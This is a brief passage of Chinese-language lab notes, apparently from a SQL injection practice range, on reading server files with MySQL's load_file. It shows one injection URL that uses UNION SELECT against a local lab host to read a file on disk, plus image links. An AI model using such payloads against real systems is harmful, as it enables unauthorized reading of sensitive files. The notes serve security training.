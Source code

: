 [load_file读取敏感信息](https://blog.csdn.net/blackguest07/article/details/128720855)

![image-20230815194228604](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230815194228604.png)

**1、读取指定文件内容**

```sql
http://192.168.80.139/sqli/Less-3/?id=-1')  union select 1,load_file('c:/test/demo.txt'),3--+
```

<img src="./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230815194821146.png" alt="image-20230815194821146" style="zoom:33%;" />

![image-20230815194838300](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230815194838300.png)
